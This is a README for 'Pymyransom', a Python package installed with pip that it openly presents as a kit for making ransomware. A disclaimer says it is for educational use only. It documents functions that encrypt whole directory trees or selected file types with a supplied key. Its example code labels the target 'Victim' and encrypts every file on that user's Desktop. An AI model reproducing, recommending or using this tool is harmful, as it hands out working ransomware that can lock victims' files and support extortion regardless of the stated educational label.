 # Pymyransom

## Before Introducing

PYMYRANSOM **ONLY** CAN BE USED FOR EDUCATIONAL PURPOSE!!!

## What is Pymyransom?

Pymyransom is inspired by https://github.com/marcosValle/RansPy/blob/master/enc.py, I changed this code for making Ransomwares.

## How to install Pymyransom?

To install pymyransom, please type
```pip install pymyransom```.

## How to use Pymyransom?

### makeMyRansomware

Usage : ransomware_name = makeMyRansomware(your_extension, key, username, passFile)

your_extension = ".Example" : Encryption Extension
key = b'keyfor16bytes123' : Binary key for encryption
username=getpass.getuser() : PC's username
passFile=None : Pass a specific file

### Encryptor

Usage : ransomware_name.Encryptor(startPath)
startPath : Path to encrypt

### Decryptor

Usage : ransomware_name.Decryptor(startPath)

startPath : Path to decrypt

### Encrypt_Some_Ext

Usage : ransomware_name.Encrypt_Some_Ext(startPath)
Encrypts only extensions in extlist.

startPath : Path to encrypt some extensions
extlist=[".txt", ".mp3"] : Extensions for encryption

### Decrypt_Some_Ext

Usage : ransomware_name.Decrypt_Some_Ext(startPath)
Decrypts only extensions in extlist.

startPath : Path to encrypt some extensions
extlist=[".txt", ".mp3"] : Extensions for encryption

### Example Code

```python
import pymyransom
Victim = pymyransom.makeMyRansomware(your_extension=".Example")
startpath = 'c:\\Users\\'+Victim.username+'\\Desktop\\**' #Used glob to encrypt all files
Victim.Encryptor(startpath)
```
